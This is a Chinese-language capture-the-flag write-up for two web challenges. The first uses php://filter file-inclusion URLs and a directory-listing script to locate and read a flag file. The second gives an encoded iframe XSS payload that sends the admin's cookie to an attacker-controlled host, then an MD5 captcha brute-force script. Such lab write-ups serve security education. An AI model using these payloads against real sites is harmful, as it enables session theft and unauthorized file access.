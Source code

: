 发现提示，其实右击查看源代码也可以看到..

![](https://ctfwp.wetolink.com/2019xihulunjian/0.jpeg)

base64解码后得到dir.php

读dir.php

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=dir.php

```
<?php
$a = @$_GET['dir'];
if(!$a){
$a = '/tmp';
}
var_dump(scandir($a));
```

得知该文件可以列目录，尝试列目录

> http://61.164.47.198:10000/dir.php?dir=/

![](https://ctfwp.wetolink.com/2019xihulunjian/1.jpeg)

这样得到ffffflag_1s_Her4文件

使用file读取，得到flag

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=/ffffflag_1s_Her4

### Breakout

题目地址：http://61.164.47.198:10001/

打开后是一个登录界面，随意输入账号密码，即可登录进去，登录后界面如下：

![](https://ctfwp.wetolink.com/2019xihulunjian/2.jpeg)

第一个子页面可以留言评论,第二个子页面是将某个链接发送给管理员,管理员会携带cookie查看该页面,第三个子页面是执行命令和清除留言,尝试直接输入命令执行,提示说要有管理员权限才可以执行命令.到这里,很显然这是一个xss漏洞盗取管理员cookie然后登录管理员账号去执行命令.

使用如下payload绕过过滤

```
<iframe src="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:window.location.href='http://ip:port/?a='+document.cookie"
```

然后在report哪里提交

> http://61.164.47.198:10001/main.php

有个验证码，爆破脚本如下

```
import hashlib


def md5(key):
    m = hashlib.md5()
    m.update(key.encode('utf-8'))
    return m.hexdigest()


for i in range(1000000000):
    if md5(str(i))[0:6] == ' b0f446
':
        print(i)
        break
```